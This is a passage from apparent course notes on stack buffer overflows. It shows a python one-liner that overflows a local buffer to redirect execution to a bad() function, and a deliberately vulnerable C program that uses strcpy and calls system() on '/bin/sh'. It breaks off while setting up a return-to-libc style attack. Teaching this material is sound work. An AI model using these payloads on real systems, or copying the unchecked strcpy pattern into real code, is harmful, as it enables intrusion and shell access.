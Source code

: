``` example
 80484ba:   e8 71 fe ff ff          call   8048330 <printf@plt>
 80484bf:   c9                      leave  
 80484c0:   c3                      ret    
(...)
```

We see that the buffer is allocated at `ebp-0x6c` so we can quickly do
the exploit like so where we jump to bad():

``` example
user@si485H-base:demo$ ./call_bad `python -c "print 'A'*(0x6c+4) + '\x7d\x84\x04\x08'"`
Buf: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}?
You've been PWNED!
Segmentation fault (core dumped)
```

## Functions with Arguments

We can make the exploit a little more intriguing if we were to make so
that bad() will call system() with it's argument:

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char pwn[]="/bin/sh";

void bad(char * s){
  printf("You've been PWNED!\n");

  system(s);

}

void vuln(char * s){
  char buf[100];

  strcpy(buf,s);

  printf("Buf: %s\n", buf);
}

void main(int argc, char * argv[]){

    vuln(argv[1]);
}
```

In this scenario, much like a return-2-libc attack, if we have the stack
properly aligned with the right argument, namely `pwn`, then we'll get a
shell to launch. For that to happen, we'll need the exploit on the stack
to look like this:
